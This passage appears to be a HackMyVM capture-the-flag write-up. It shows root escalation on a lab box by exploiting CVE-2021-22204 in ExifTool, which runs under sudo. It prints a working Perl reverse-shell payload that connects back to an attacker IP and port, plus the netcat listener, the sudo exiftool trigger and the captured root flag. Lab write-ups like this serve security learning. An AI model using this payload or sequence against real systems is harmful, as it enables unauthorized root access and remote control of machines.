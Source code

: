 `scp ./50911.py robert@192.168.56.112:/home/robert`:
```
robert@192.168.56.112's password: ←
50911.py                               100% 4740     2.5MB/s   00:00 ←
```

![Victim: robert](https://img.shields.io/badge/Victim-robert-64b5f6?logo=linux&logoColor=white)

`python3 ./50911.py -s 192.168.56.101 6666`:
```
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(6666,inet_aton('192.168.56.101')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")                                                  
RUNTIME: DONE - Exploit image written to 'image.jpg' ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lvnp 6666`:
```                                                                    
listening on [any] 6666 ... ←
```

![Victim: robert](https://img.shields.io/badge/Victim-robert-64b5f6?logo=linux&logoColor=white)

`sudo /usr/local/bin/exiftool image.jpg`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.112] 58808 ←
/bin/sh: 0: can't access tty; job control turned off
```

![Victim: www-root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`cd /root/`

`cat r0ot.tXt`:
```
HMV{c62d75d636f66450980dca2c4a3457d8} ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
